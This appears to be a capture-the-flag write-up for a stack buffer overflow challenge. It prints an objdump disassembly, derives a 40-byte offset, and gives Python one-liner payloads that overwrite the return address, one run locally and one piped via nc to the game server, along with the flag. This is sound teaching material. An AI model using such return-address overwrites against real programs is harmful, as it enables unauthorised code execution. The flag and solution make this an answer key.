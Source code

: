 # Party Invitation

## Question Text

There's an awesome that's going to go down next week. 

Created by Noans

## Distribution
AwesomeParty `SHA1: 08797f1fd4473e8d09d64efda3ca429ea0d9afc0`

## Solution
1. Do an objdump on `AwesomeParty` with the command `objdump -d AwesomeParty`.
2. The following parts of from the `objdump` should be studied:  
```
0000000000400586 <check>:
400586:	55                   	push   %rbp
400587:	48 89 e5             	mov    %rsp,%rbp
40058a:	48 83 ec 20          	sub    $0x20,%rsp
40058e:	48 8d 45 e0          	lea    -0x20(%rbp),%rax
400592:	48 89 c6             	mov    %rax,%rsi
400595:	bf 78 06 40 00       	mov    $0x400678,%edi
40059a:	b8 00 00 00 00       	mov    $0x0,%eax
40059f:	e8 cc fe ff ff       	callq  400470 <__isoc99_scanf@plt>
4005a4:	bf 7b 06 40 00       	mov    $0x40067b,%edi
4005a9:	e8 a2 fe ff ff       	callq  400450 <puts@plt>
4005ae:	90                   	nop
4005af:	c9                   	leaveq
4005b0:	c3                   	retq
```
Where the third line tells us 32 bytes is reserved for a variable.
3. Derive that one needs to override 32 bytes + rbp to overwrite return address.
4. Also derive address of `awesome` function is `4005b1`.

Final command to exploit local program assuming machine uses little-endian:  
`python -c 'print "a" * 40 + "\xb1\x05\x40"' | ./AwesomeParty`

In order to get the flag, players have to pipe the output to the game server:  
`python -c 'print "a" * 40 + "\xb1\x05\x40"' | nc play.spgame.site 50000`

## Flag
`GCTF{4W3S0M3_L177L3_P4R7Y}`

## Recommended Reads
* https://dhavalkapil.com/blogs/Buffer-Overflow-Exploit/
* https://eli.thegreenplace.net/2011/09/06/stack-frame-layout-on-x86-64